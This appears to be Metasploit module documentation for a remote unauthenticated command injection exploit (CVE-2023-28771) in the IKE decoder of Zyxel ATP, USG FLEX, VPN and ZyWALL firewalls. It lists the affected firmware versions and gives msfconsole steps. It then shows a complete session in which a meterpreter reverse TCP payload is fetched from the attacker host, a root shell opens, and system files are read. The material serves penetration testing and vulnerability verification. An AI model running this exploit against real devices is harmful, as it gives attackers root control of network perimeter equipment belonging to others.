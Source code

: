 ## Vulnerable Application
This module exploits a remote unauthenticated command injection vulnerability in the Internet Key Exchange
(IKE) packet decoder over UDP port 500 on the WAN interface of several Zyxel devices. The affected devices are
as follows:

* ATP (Firmware version 4.60 to 5.35 inclusive)
* USG FLEX (Firmware version 4.60 to 5.35 inclusive),
* VPN (Firmware version 4.60 to 5.35 inclusive)
* ZyWALL/USG (Firmware version 4.60 to 4.73 inclusive).

The affected devices are vulnerable in a default configuration and command execution is with root privileges. For a
full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/N3i8dxpFKS/cve-2023-28771/rapid7-analysis).

## Testing
A physical device is required for testing. The device must be running a vulnerable firmware version prior to the
vendor patch. A Zyxel USG FLEX 100 device was used during development and testing of this Metasploit module.

The attacker must be able to send UDP data to port 500 on the WAN interface of the affected network device.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771`
3. `set RHOST <TARGET_WAN_IP>`
4. `set LHOST eth0`
5. `set FETCH_SRVHOST eth0`
6. `check`
7. `exploit`
8. The default target `0` uses a `cmd/linux/http/mips64/meterpreter_reverse_tcp` payload. A meterpreter session with
root privileges should be created.

## Scenarios

### Default Target (Zyxel USG FLEX 100)
```
msf6 > use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771
[*] Using configured payload cmd/linux/http/mips64/meterpreter_reverse_tcp
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) >
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set RHOSTS 192.168.86.40
RHOSTS => 192.168.86.40
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set LHOST eth0
LHOST => 192.168.86.42
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set FETCH_SRVHOST eth0
FETCH_SRVHOST => 192.168.86.42
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > show options 

Module options (exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.86.40    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   500              yes       The target port (UDP)


Payload options (cmd/linux/http/mips64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      luAxlQjv         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.86.42    yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > check
[*] 192.168.86.40:500 - The service is running, but could not be validated. IKE detected but device vendor and service version are unknown.
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.40:48310) at 2023-06-09 09:24:32 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.40
OS           :  (Linux 3.10.87-rt80-Cavium-Octeon)
Architecture : mips64
BuildTuple   : mips64-linux-muslsf
Meterpreter  : mips64/linux
meterpreter > cat /zyinit/fwversion 
KERNEL_VERSION=3.10.87
FIRMWARE_VER=5.20(ABUH.0)520-r102903-k3
CAPWAP_VER=1.00.04
COMPATIBLE_PRODUCT_MODEL_0=E15D
COMPATIBLE_PRODUCT_MODEL_1=FFFF
COMPATIBLE_PRODUCT_MODEL_2=FFFF
COMPATIBLE_PRODUCT_MODEL_3=FFFF
COMPATIBLE_PRODUCT_MODEL_4=FFFF
MODEL_ID=USG FLEX 100
KERNEL_BUILD_DATE=2022-01-04 16:14:50
BUILD_DATE=2022-01-04 18:13:20
FSH_VER=1.0.0
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.86.40 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > 
```
